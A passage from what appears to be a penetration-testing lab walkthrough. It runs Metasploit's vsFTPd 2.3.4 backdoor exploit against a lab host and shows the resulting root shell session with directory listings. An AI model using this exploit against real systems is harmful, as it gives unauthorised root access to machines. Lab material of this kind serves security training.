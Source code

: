 ```bash
View the full module info with the info, or info -d command.
```

6.  Now we will run the exploit and we will get the reverse shell, with root Access. As shown below.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.1.64:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.64:21 - USER: 331 Please specify the password.
[+] 192.168.1.64:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.64:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
ls
cd [*] Command shell session 1 opened (192.168.1.8:41217 -> 192.168.1.64:6200) at 2025-09-15 13:05:09 +0530

bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
su
sh: line 7: cd: su: No such file or directory
sudo su
1234
bash: line 1: 1234: command not found
cd /etc
ls
adduser.conf
adjtime
aliases
aliases.db
alternatives
apache2
apm
apparmor
apparmor.d
apt
at.deny
bash.bashrc
bash_completion
bash_completion.d
belocs
bind
bindresvport.blacklist
```